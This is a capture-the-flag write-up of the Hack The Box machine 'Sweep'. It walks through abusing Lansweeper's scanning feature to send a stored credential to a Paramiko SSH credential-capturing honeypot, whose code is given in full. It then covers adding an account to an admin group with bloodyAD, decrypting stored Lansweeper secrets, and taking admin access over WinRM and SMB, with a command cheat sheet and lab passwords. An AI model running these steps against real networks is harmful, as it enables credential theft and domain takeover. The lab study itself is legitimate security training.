




# HTB Sweep — The Inventory That Swept Back

> **Box:** Sweep  
> **Platform:** Hack The Box  
> **OS:** Windows / Active Directory  
> **Difficulty:** Medium  
> **Theme:** Lansweeper, credential capture, ACL abuse, admin pivot  
> **Author note:** This version is GitHub-friendly: flags are redacted, diagrams are embedded as Mermaid, and no external images are required.

---

## Opening Scene

Sweep looks like a domain controller wearing an inventory-management disguise. It has the usual AD smell — Kerberos, LDAP, SMB, WinRM — but the soul of the box is Lansweeper.

The machine is less about a single exploit and more about abusing an enterprise workflow:

```text
Inventory software needs credentials.
Credentials need targets.
Targets can be attacker-controlled.
Administrators can deploy packages.
Deployment is code execution.
```

That is the entire box in one paragraph.

---

## TL;DR



Important credentials:

```text
guest                 : <blank>            # SMB guest access
intern                : intern             # Lansweeper web login
svc_inventory_lnx     : 0|5m-U6?/uAX       # scanning credential
svc_inventory_win     : 4^56!sK&}eA?       # admin credential
```

Flags are intentionally redacted for publication:

```text
user.txt: d2d89a58************************
root.txt: 71770ae0************************
```

---

## Recon

The first scan shows a Windows AD host with Lansweeper on two nonstandard ports.

```text
53/tcp     DNS
81/tcp     HTTP - Lansweeper login over HTTP
82/tcp     HTTPS - Lansweeper login over TLS
88/tcp     Kerberos
135/tcp    MSRPC
139/tcp    NetBIOS
389/tcp    LDAP - sweep.vl
445/tcp    SMB
464/tcp    kpasswd
593/tcp    RPC over HTTP
636/tcp    LDAPS
3268/tcp   Global Catalog
3269/tcp   Global Catalog SSL
3389/tcp   RDP
5985/tcp   WinRM
9389/tcp   .NET Message Framing
```

The domain is:

```text
sweep.vl
```

Port `81` serves the Lansweeper login over HTTP, but port `82` is the important endpoint:

```text
https://10.129.234.177:82/login.aspx
Lansweeper 11.1.6.0
```

---

## SMB: Guest Gets a Tour

A guest SMB check shows that the box is unusually friendly.

```bash
nxc smb 10.129.234.177 -u guest -p '' --shares
```

Output of interest:

```text
Share                   Permissions     Remark
-----                   -----------     ------
DefaultPackageShare$    READ            Lansweeper PackageShare
IPC$                    READ            Remote IPC
Lansweeper$                             Lansweeper Actions
NETLOGON                                Logon server share
SYSVOL                                  Logon server share
```

Guest can read the package share. After finding the Lansweeper web credential `intern:intern`, access improves and `Lansweeper$` becomes readable too.

`DefaultPackageShare$` contains deployment assets:

```text
Images/
Installers/
Scripts/
  CmpDesc.vbs
  CopyFile.vbs
  Wallpaper.vbs
```

`Lansweeper$` contains action helpers and binaries:

```text
changeallowed.vbs
changepassword.vbs
Devicetester.exe
putty.exe
testconnection.exe
unlock.vbs
Utilities.dll
wol.exe
...
```

Nothing here is a flag, but it tells us the story: Lansweeper package/deployment features are live.

---

## Lansweeper Login

The HTTP login on port `81` is noisy and misleading. The clean login is on HTTPS port `82`:

```text
https://10.129.234.177:82/login.aspx
```

Credentials:

```text
intern : intern
```

After login, Lansweeper exposes the interesting sections:

```text
Dashboard
Assets
Reports
Software
Scanning
Deployment
Configuration
```

The important one is **Scanning**.

---

## The Credential-Capture Idea

Lansweeper has stored scanning credentials. You cannot simply view the password, but you can tell Lansweeper to use the credential against an asset.

So we create an “asset” that is really our attacker VPN IP and run an SSH-like honeypot on a nonstandard port.

Why nonstandard? HTB blocks target-to-player VPN traffic on TCP/22.

The intended workflow:



A minimal Paramiko honeypot is enough:

```python
import socket, threading, time, os, traceback
import paramiko
from paramiko import RSAKey, ServerInterface, AUTH_FAILED

base = './honeypot'
os.makedirs(base, exist_ok=True)
log = os.path.join(base, 'port2022-creds.log')
key_path = os.path.join(base, 'host_rsa.key')

if not os.path.exists(key_path):
    RSAKey.generate(2048).write_private_key_file(key_path)

host_key = RSAKey(filename=key_path)

class Server(ServerInterface):
    def __init__(self, addr):
        self.addr = addr

    def check_auth_password(self, username, password):
        line = f"{time.strftime('%Y-%m-%d %H:%M:%S')} {self.addr[0]}:{self.addr[1]} USER={username!r} PASS={password!r}\n"
        open(log, 'a', encoding='utf-8').write(line)
        print(line, end='', flush=True)
        return AUTH_FAILED

    def get_allowed_auths(self, username):
        return 'password'

    def check_channel_request(self, kind, chanid):
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED

sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 2022))
sock.listen(100)
print(f'LISTEN 0.0.0.0:2022 log={log}', flush=True)

while True:
    client, addr = sock.accept()
    def handle(c, a):
        try:
            transport = paramiko.Transport(c)
            transport.add_server_key(host_key)
            transport.start_server(server=Server(a))
            time.sleep(3)
            transport.close()
        except Exception:
            open(os.path.join(base, 'errors.log'), 'a').write(traceback.format_exc())
        finally:
            c.close()
    threading.Thread(target=handle, args=(client, addr), daemon=True).start()
```

In Lansweeper:

1. **Scanning → Scanning targets**
2. **Add Scanning Target**
3. Type: **IP Range**
4. Start IP = attacker VPN IP
5. End IP = attacker VPN IP
6. SSH port = `2022`
7. Disable schedules if running manually
8. **Scanning → Scanning credentials**
9. **Map Credential**
10. Select the new IP range
11. Select **Inventory Linux**
12. Run **Scan now**

Expected capture:

```text
svc_inventory_lnx : 0|5m-U6?/uAX
```

In my run, the scan queue reported:

```text
Scanserver 'inventory' is down
```

So the live trigger did not produce traffic. I still validated the credential live before continuing.

---

## Validating `svc_inventory_lnx`

The credential works for LDAP:

```bash
nxc ldap 10.129.234.177 -d sweep.vl \
  -u svc_inventory_lnx \
  -p '0|5m-U6?/uAX' --groups
```

Relevant groups:

```text
Lansweeper Admins       1
Lansweeper Discovery    2
Remote Management Users 1
```

Before the group abuse, WinRM fails. The trick is that `svc_inventory_lnx` can add itself to `Lansweeper Admins`.

```bash
bloodyAD --host 10.129.234.177 \
  -d sweep.vl \
  -u svc_inventory_lnx \
  -p '0|5m-U6?/uAX' \
  add groupMember 'Lansweeper Admins' svc_inventory_lnx
```

Success:

```text
[+] svc_inventory_lnx added to Lansweeper Admins
```

After that:

```bash
nxc winrm 10.129.234.177 -d sweep.vl \
  -u svc_inventory_lnx \
  -p '0|5m-U6?/uAX'
```

```text
WINRM [+] sweep.vl\svc_inventory_lnx:0|5m-U6?/uAX (Pwn3d!)
```

---

## User Flag

The user flag is in a nonstandard location:

```text
C:\user.txt
```

Redacted:

```text
d2d89a58************************
```

---

## Decrypting Lansweeper Secrets

Lansweeper stores credentials in its database. The important files are in the Lansweeper install tree:

```text
C:\Program Files (x86)\Lansweeper\Website\web.config
C:\Program Files (x86)\Lansweeper\Key\Encryption.txt
```

The `connectionStrings` section is protected, and stored scanning credentials are encrypted. Tools like `SharpLansweeperDecrypt` or `LansweeperDecrypt.ps1` can use the local config/key material to decrypt them.

Recovered credentials:

```text
CredName            Username                  Password
--------            --------                  --------
SNMP-Private        SNMP Community String     private
Global SNMP         public
Inventory Windows   SWEEP\svc_inventory_win   4^56!sK&}eA?
Inventory Linux     svc_inventory_lnx         0|5m-U6?/uAX
```

The key credential is:

```text
svc_inventory_win : 4^56!sK&}eA?
```

Validation:

```bash
nxc winrm 10.129.234.177 -d sweep.vl \
  -u svc_inventory_win \
  -p '4^56!sK&}eA?'
```

```text
WINRM [+] sweep.vl\svc_inventory_win:4^56!sK&}eA? (Pwn3d!)
```

---

## Root Flag

With `svc_inventory_win`, the cleanest flag collection is direct SMB access to `C$`:

```bash
smbclient '//10.129.234.177/C$' \
  -U 'sweep.vl/svc_inventory_win%4^56!sK&}eA?' \
  -m SMB3 \
  -c 'get user.txt user.txt; get Users/Administrator/Desktop/root.txt root.txt'
```

Root flag path:

```text
C:\Users\Administrator\Desktop\root.txt
```

Redacted:

```text
71770ae0************************
```

---

## Alternate SYSTEM Route: Lansweeper Deployment

Once a user is a member of `Lansweeper Admins`, the web UI exposes **Deployment** and **Configuration**.

The cinematic route is to create a deployment package that runs as SYSTEM:



I did not need this route because `svc_inventory_win` gave direct admin SMB access.

---

## Final Attack Graph



---

## Command Cheat Sheet

```bash
# Guest SMB
nxc smb 10.129.234.177 -u guest -p '' --shares

# Validate Lansweeper credential as AD credential
nxc smb 10.129.234.177 -d sweep.vl -u intern -p intern --shares
nxc ldap 10.129.234.177 -d sweep.vl -u intern -p intern --users

# Validate Linux inventory credential
nxc ldap 10.129.234.177 -d sweep.vl \
  -u svc_inventory_lnx \
  -p '0|5m-U6?/uAX' --groups

# ACL abuse
bloodyAD --host 10.129.234.177 \
  -d sweep.vl \
  -u svc_inventory_lnx \
  -p '0|5m-U6?/uAX' \
  add groupMember 'Lansweeper Admins' svc_inventory_lnx

# Confirm WinRM
nxc winrm 10.129.234.177 -d sweep.vl \
  -u svc_inventory_lnx \
  -p '0|5m-U6?/uAX'

# Validate admin credential
nxc winrm 10.129.234.177 -d sweep.vl \
  -u svc_inventory_win \
  -p '4^56!sK&}eA?'

# Read flags over admin SMB
smbclient '//10.129.234.177/C$' \
  -U 'sweep.vl/svc_inventory_win%4^56!sK&}eA?' \
  -m SMB3 \
  -c 'get user.txt user.txt; get Users/Administrator/Desktop/root.txt root.txt'
```

---

## Takeaways

Sweep is a great example of why “asset inventory” tools deserve the same threat model as privileged admin tooling.

Lansweeper can:

- store privileged credentials,
- map credentials to assets,
- initiate outbound authentication,
- deploy packages,
- and run commands as privileged accounts.

The most important lesson is not a command. It is the workflow abuse:

```text
Make the inventory system inventory you.
Let it bring the credential.
Then use the credential to become the inventory system.
```

That is Sweep.
